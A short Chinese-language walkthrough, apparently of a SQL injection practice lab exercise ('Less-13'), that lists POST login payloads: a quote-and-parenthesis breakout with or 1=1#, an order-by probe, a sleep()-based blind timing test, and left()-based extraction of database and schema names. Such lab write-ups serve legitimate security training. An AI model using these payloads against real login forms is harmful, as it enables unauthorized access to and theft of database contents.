

# Less-13_01
以下均为POST内容：
1. uname=admin &passwd=admin&submit=Submit  此时只是显示登陆成功，但是不会显示其他的信息。
2. uname=‘ &passwd=a&submit=Submit  直接通过报错信息知道了如何构造   构造：1’) or 1=1#
3. uname=admin‘) order by 2# &passwd=admin&submit=Submit  此时只是显示登陆成功，但是不会显示其他信息，考虑盲注。
4. uname=admin‘) or if(length(database())=8,1,sleep(5))# &passwd=admin&submit=Submit 此时可以得到数据库的长度是8.
5. uname=admin&passwd=ain‘) or left(database(),1)>’a‘#&submit=Submit 使用or和left()来判断第一个字母是多少(注意的是这里不是使用and)
6. uname=admin&passwd=ain‘) or left(database(),2)=’se‘#&submit=Submit 通过这样一个个进行判断即可！
7. uname=admin&passwd=ain‘) or left((select schema_name from information_schema.schemata limit 0,1),1)>’a‘#&submit=Submit 或者是使用这种方法也是可以判断的。